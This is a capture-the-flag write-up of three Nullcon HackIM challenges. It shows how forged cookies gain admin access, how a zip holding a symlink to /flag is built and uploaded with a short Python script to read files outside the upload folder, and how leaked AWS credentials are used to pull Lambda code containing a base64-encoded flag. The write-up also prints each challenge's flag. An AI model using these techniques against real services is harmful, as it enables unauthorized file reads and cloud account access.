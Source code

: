# Nullcon HackIM CTF

Category : **WEB**

## Challenge - Reguest

Description : HTTP requests and libraries are hard. Sometimes they do not behave as expected, which might lead to vulnerabilities.

## **Solution :**

On visiting the page , it shows with some instruction and cookies.

![ctf01.png](Nullcon%20HackIM%20CTF%20fe5a0190811f41cfa761fb017ffe61fc/ctf01.png)

```php
role = request.cookies.get('role','guest')
	really = request.cookies.get('really', 'no')
	if role == 'admin':
		if really == 'yes':
			resp = 'Admin: ' + os.environ['FLAG']
		else:
			resp = 'Guest: Nope'
	else:
		resp = 'Guest: Nope'
	return Response(resp, mimetype='text/plain')
```

Look at the code , the role variable has the ‘role’ cookie and really variable has the ‘really’ cookie and it checks whether the role cookie is equals to admin and really cookie equals to yes . 

If both role and really equals to admin and yes respectively , we will get flag !!.

Now , we have to set the cookies role = admin and really = yes …

Flag : `ENO{R3Qu3sts_4r3_s0m3T1m3s_we1rd_dont_get_confused}`

## Challenge : zpr

Description : My colleague built a service which shows the contents of a zip file. He says there's nothing to worry about.…

## Solution:

The webpage shows with some instruction as make a zipfile as post request !!.

![ctf02.png](Nullcon%20HackIM%20CTF%20fe5a0190811f41cfa761fb017ffe61fc/ctf02.png)

So, we have to send zip file to the server.They gave the actual backend code for the challege.

```python
def upload():
	output = io.StringIO()
	if 'file' not in request.files:
		output.write("No file provided!\n")
		return Response(output.getvalue(), mimetype='text/plain')

	try:
		file = request.files['file']

		filename = hashlib.md5(secrets.token_hex(8).encode()).hexdigest()
		dirname = hashlib.md5(filename.encode()).hexdigest()

		dpath = os.path.join("/tmp/data", dirname)
		fpath = os.path.join(dpath, filename + ".zip")

		os.mkdir(dpath)
		file.save(fpath)

		with zipfile.ZipFile(fpath) as zipf:
			files = zipf.infolist()
			if len(files) > 5:
				raise Exception("Too many files!")

			total_size = 0
			for the_file in files:
				if the_file.file_size > 50:
					raise Exception("File too big.")

				total_size += the_file.file_size

			if total_size > 250:
				raise Exception("Files too big in total")

		check_output(['unzip', '-q', fpath, '-d', dpath])

		g = glob.glob(dpath + "/*")
		for f in g:
			output.write("Found a file: " + f + "\n")

		output.write("Find your files at http://...:8088/" + dirname + "/\n")

	except Exception as e:
		output.write("Error :-/\n")

	return Response(output.getvalue(), mimetype='text/plain')
```

On looking up the code, we can see that the website extracts our archive .It should have checked for any symlinks associated with the zip file but it doesn’t.

We have to create the zip file with symlink!!

```bash
ln -s /flag flag.txt
zip --symlinks flag.zip flag.txt
```

So, now we have to upload this zip file to the server using python.

```python
import requests

URL = "http://52.59.124.14:10015/"
files = {'file': open('flag.zip', 'rb')}
getdata = requests.post(URL, files=files)
print(getdata.content)
```

![ctf03.png](Nullcon%20HackIM%20CTF%20fe5a0190811f41cfa761fb017ffe61fc/ctf03.png)

We have a path to the uploaded zip file , on visiting to that path we can able to see the zip file with flag.txt@ 

Got the flag using flag.txt@ file!!.

Flag : `ENO{Z1pF1L3s_C4N_B3_Dangerous_so_b3_c4r3ful!}`


Category : **Cloud**

## Challenge : Rain checks

Description : So many options to make sure everything stays as it is. Let's use them all.

Attachments :  **exposed-user-credentials.txt, policy-exposed-user.json**

### Solution:

The exposed-user-credentials.txt has aws Access Key ID, AWS Secret Access Key .Using this , we can able to configure aws-cli using the command 

```bash
aws configure
```

the policy-exposed-user.json contains

```bash
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "VisualEditor0",
            "Effect": "Allow",
            "Action": [
                "lambda:GetLayerVersion",
                "lambda:GetFunction",
                "lambda:GetLayerVersionPolicy"
            ],
            "Resource": "*",
            "Condition": {
                "Bool": {
                    "aws:MultiFactorAuthPresent": "true"
                }
            }
        },
        {
            "Sid": "VisualEditor1",
            "Effect": "Allow",
            "Action": [
                "lambda:UpdateFunctionCode",
                "lambda:InvokeFunction"
            ],
            "Resource": "arn:aws:lambda:eu-central-1:743296330440:function:lambda-confirm-secret",
            "Condition": {
                "Bool": {
                    "aws:MultiFactorAuthPresent": "true"
                }
            }
        }
    ]
}
```

Using this file , we can able to find the region (eu-central-1) and it using lambda function.

aws has the method get-function returns information about the function or function version, with a link to download the deployment package that's valid for 10 minutes.

```bash
aws lambda get-function --function-name lambda-confirm-secret
```

Using this , we can able to download the lamba-confirm-secret python file and it also gives two more function names in the output.

```bash
lambda-aws-config-confirm-state-of-lambda
lambda-aws-config-confirm-state-of-secrets
```

Again, we have to download the python code of the above two functions using the get-function method.

In the lambda-aws-config-confirm-state-of-secrets , it has method called **correct_secret()**

```bash
def correct_secret():
    secret_name = "flag1"
    region_name = "eu-central-1"

    session = boto3.session.Session()
    client = session.client(
        service_name='secretsmanager',
        region_name=region_name
    )

    response = client.put_secret_value(
    SecretId=secret_name,
    SecretString=base64.b64decode('RU5Pe04wX0VkMXRfU3QxbGxfVnVsbn0='))
```

This code have some base64 enocoded value , decode it and get the flag !!.

```bash
echo "RU5Pe04wX0VkMXRfU3QxbGxfVnVsbn0=" | base64 -d
```

Flag : `ENO{N0_Ed1t_St1ll_Vuln}`
